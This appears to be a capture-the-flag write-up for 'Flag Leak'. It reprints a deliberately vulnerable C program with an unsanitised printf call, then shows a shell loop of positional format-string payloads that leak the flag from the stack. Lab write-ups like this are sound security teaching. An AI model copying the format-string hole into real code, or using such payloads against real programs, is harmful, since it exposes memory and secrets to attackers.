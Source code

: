 # Flag Leak

There is a vulnerable program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

In `vuln` the `flag` array is populated with values of the flag. The
vulnerability is the call `printf(story)` which calls `printf` with unsanitized
input.

First, generate a fake flag for testing

```console
$ echo 'fake-flag' > flag.txt
```

Calling `printf` with a conversion specifier without a corresponding argument
is undefined behaviour, though generally it means reading args of the stack.

For the attack we will use the `%n$` format specified to read the `nth`
positional arg as a string, with a simple loop:

```console
$ for i in {1..40}; do echo "%$i\$s" | ./vuln | grep 'fake-flag' && break; done
fake-flag
```
